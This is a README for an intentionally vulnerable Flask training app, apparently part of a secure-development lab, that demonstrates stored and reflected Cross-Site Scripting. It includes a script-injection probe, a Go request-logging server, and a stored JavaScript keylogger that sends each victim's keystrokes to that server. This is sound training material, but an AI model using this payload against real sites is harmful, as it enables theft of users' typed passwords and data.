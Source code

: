 # Gossip World

<p align="center">
    <img src="images/banner.png"/>
</p>

Gossip World is a simple Flask app that contains an example of multiple Cross-Site Scripting vulnerabilities and it's main goal is to describe how a malicious user could exploit them on this purposefully vulnerable app.

## Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a7/gossip-world
```

```sh
make install
```

Then simply visit [localhost:3001][App] ! 😆

## Get to know the app 💄

To properly understand how this application works, you can follow these simple steps:

- Create a new user
- Try leaving a comment on a gossip
- Try creating your own gossip!

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

#### Non sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the following text  is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
   <img src="images/attack-1.png" align="center"/>
   <img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="images/attack-3.png" align="center"/>
   <img src="images/attack-4.png" align="center"/>

Adding a new post:
   <img src="images/attack-5.png" align="center"/>
   <img src="images/attack-6.png" align="center"/>


The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending to other users. In order to demonstrate this, the following example will get all keyboard input from an user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```
   
To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang): 

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/newgossip** route by using the following code in the text field:

```html
<script>
var k="";
document.onkeypress=function(e) {
   e = e || window.event;
   k+=e.key;
   var i=new Image;
   i.src="http://localhost:1232/"+k;
}
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

   <img src="images/attack-7.png" align="center"/>

When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="images/attack-8.png" align="center"/>

The attacker now gets all the input on the server log, as shown below: 

<img src="images/attack-9.png" align="center"/>

## Secure this app

How would you migitate this vulnerability? After your changes, an attacker should not be able to:

* Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:3001
